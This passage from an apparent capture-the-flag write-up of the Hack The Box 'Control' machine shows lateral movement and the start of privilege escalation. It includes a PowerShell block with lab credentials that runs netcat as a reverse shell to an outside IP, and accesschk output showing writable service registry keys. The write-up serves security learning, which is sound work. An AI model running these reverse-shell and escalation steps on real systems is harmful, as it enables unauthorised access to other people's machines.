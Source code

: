 ## Getting access as user Hector

There's two easy ways to get a shell as Hector using the credentials found in the database:

1.Port forward port 5985 and land a shell using WinRM
![](/assets/images/htb-writeup-control/shell2.png)

2.Upload netcat and use powershell to execute it as user Hector
![](/assets/images/htb-writeup-control/upload.png)

![](/assets/images/htb-writeup-control/shell3.png)

Command used:

```powershell
$user = 'fidelity\hector'
$pw = 'l33th4x0rhector'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.51 5555 -e cmd.exe}
```
## Priv esc using insecure ACLs on services

I uploaded `accesschk.exe` and checked files and registry entries that I have access to. I noticed that I had Read/Write access to a lot of registry entries related to services.

`C:\Users\Hector\Documents>c:\windows\system32\spool\drivers\color\accesschk.exe "Hector" -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services`

```
[...]
RW HKLM\System\CurrentControlSet\Services\sdbus\Parameters
RW HKLM\System\CurrentControlSet\Services\SDFRd
RW HKLM\System\CurrentControlSet\Services\SDFRd\Parameters
RW HKLM\System\CurrentControlSet\Services\SDFRd\Parameters\Wdf
RW HKLM\System\CurrentControlSet\Services\sdstor
RW HKLM\System\CurrentControlSet\Services\sdstor\Parameters
RW HKLM\System\CurrentControlSet\Services\seclogon
RW HKLM\System\CurrentControlSet\Services\seclogon\Parameters
RW HKLM\System\CurrentControlSet\Services\seclogon\Security
RW HKLM\System\CurrentControlSet\Services\SecurityHealthService
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc\Parameters
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc\Security
[...]
```

To successfully get RCE as SYSTEM I need to find a service that matches the following criterias:
- I can edit the registry entries with user Hector
- I need to be able to start the service with user Hector
- Is already configured to run as LocalSystem
